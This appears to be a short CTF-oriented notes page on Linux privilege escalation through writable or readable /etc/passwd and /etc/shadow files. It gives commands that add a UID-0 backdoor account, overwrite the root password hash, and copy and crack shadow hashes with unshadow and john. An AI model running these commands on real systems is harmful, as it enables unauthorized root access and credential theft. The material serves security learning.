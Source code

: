 # /etc/shadow & /etc/passwd

in a real life scenario its really uncommon to see /etc/passwd or /etc/shadow files with write access for any user other than root.

the methods shown here are mostly seen in easy or intermediate level CTFs but its still good to know these.

## Add /etc/passwd new root user

if we have write permission to /etc/passwd we can add a new root user with password hash and the right format  
  
 first we create a hash for our root user password:  
  
 `openssl passwd evil  
 echo "root2:[password hash]:0:0:root:/root:/bin/bash" >> /etc/passwd`

now login using the new root account:

![](../../../.gitbook/assets/etc1.png)

## Change the /etc/shadow root has

if we have write access to /etc/shadow file we can add a new password hash for the root user:

#### `mkpasswd -m sha-512 “new password”`

replace the root hash with this new hash and login:

![](../../../.gitbook/assets/etc2.png)

## Hash cracking

if the /etc/shadow is readable copy the root user hash to the local system:

#### `ls -l /etc/shadow head -n 1 /etc/shadow`

Crack the password hash using john:

#### `john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt  john --format=sha512crypt hash.txt --show`

#### `unshadow /etc/passwd /etc/shadow > hash`

{% hint style="info" %}
#### `if the "unshadow" command ins not available on target system just copy the content of both files to your own machine and run unshadow on them or just install the unshadow tool on victim machni using apt. remember the order of files is important when unshadowing. /etc/passwd is always first and then there is /etc/shadow.`
{% endhint %}









